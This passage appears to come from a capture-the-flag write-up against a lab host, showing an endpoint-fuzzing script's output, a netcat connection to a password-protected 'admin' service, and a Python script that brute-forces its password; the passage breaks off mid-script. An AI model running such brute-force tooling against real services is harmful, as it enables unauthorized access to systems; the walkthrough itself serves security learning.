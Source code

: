 Executing the script will reveal `admin` endpoint

```bash
┌──(root㉿kali)-[~/Desktop]
└─# python3 find_endpoint.py 10.10.43.86 8000 "/usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt"
Trying 0...
...
Trying admin...
==========> FOUND! -> admin
Trying admins...
...
Trying shell...
==========> FOUND! -> shell
Trying show...
Trying sign...
```

Trying the admin endpoint prompts for a password—one that we don’t know.

```bash
┌──(root㉿kali)-[~/Desktop]
└─# nc 10.10.43.86 8000
admin
Password:

```

Therefore, we need to adjust the previous Python script and attempt to fuzz for valid password(and hope) that it works.
After some trial and error, I noticed that after every three attempts, we need to send the admin endpoint again to continue without creating a new socket each time. I incorporated this into the script accordingly

```python title="find_endpoint.py"
#!/usr/bin/env python3

import socket
import time
import sys

def create_socket_connection(host, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((host, port))
        return sock
    except socket.error as e:
        print(f"Error creating socket connection: {e}")
        return None

def brute_force(sock, wordlist):
	retries = 0
	sock.send("admin".encode())
	time.sleep(1)
	for word in wordlist:
		sock.send(word.encode())
		data = sock.recv(512).decode("utf-8")
		print("Trying " + word + ".... Got => " + data.replace("\n", ''))
		retries = retries + 1
		if retries == 3:
			sock.send("admin".encode())
			retries = 0
		time.sleep(1)
		
	sock.close()
	
if __name__ == "__main__":
```
